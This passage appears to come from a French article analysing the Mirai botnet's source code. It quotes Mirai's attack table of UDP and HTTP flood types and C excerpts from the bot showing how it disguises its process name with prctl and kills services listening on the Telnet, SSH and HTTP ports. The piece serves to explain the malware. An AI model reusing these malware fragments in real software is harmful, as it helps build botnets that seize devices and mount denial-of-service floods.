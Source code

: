 ```go
        []uint8 {0, 1, 7},
        "UDP flood with less options. optimized for higher PPS",
    },
    "http": AttackInfo {
        10,
        []uint8 {8, 7, 20, 21, 22, 24},
        "HTTP flood",
    },
}
```

Le principe de ces différentes attaques ne sera pas expliqué dans cette article, mais des articles entiers leur sont dédiés et sont accessibles sur internet.


### Le bot

Le bot est composé de plus de 6200 lignes de code C réparties dans 13 fichiers .c et presque autant de .h.


#### Première étape : suppression des services en écoute

Tout d'abord, le programme remplace le nom du processus afin de se cacher, via l'appel système `prctl` (mirai/bot/main.c ligne 128):

```c
// Hide argv0
name_buf_len = ((rand_next() % 4) + 3) * 4;
rand_alphastr(name_buf, name_buf_len);
name_buf[name_buf_len] = 0;
util_strcpy(args[0], name_buf);

// Hide process name
name_buf_len = ((rand_next() % 6) + 3) * 4;
rand_alphastr(name_buf, name_buf_len);
name_buf[name_buf_len] = 0;
prctl(PR_SET_NAME, name_buf);
```

Puis il appelle la fonction `killer_init()` (main.c ligne 157). Cette fonction, définie dans mirai/bot/killer.c (ligne 25), va "nettoyer" la machine hôte afin de supprimer les services actuellement en écoute sur les ports 23 (Telnet), 22 (SSH) et 80 (HTTP):

```c
#ifdef DEBUG
    printf("[killer] Trying to kill port 23\n");
#endif
    if (killer_kill_by_port(htons(23)))
    {
#ifdef DEBUG
        printf("[killer] Killed tcp/23 (telnet)\n");
#endif
    } else {
#ifdef DEBUG
        printf("[killer] Failed to kill port 23\n");
#endif
```
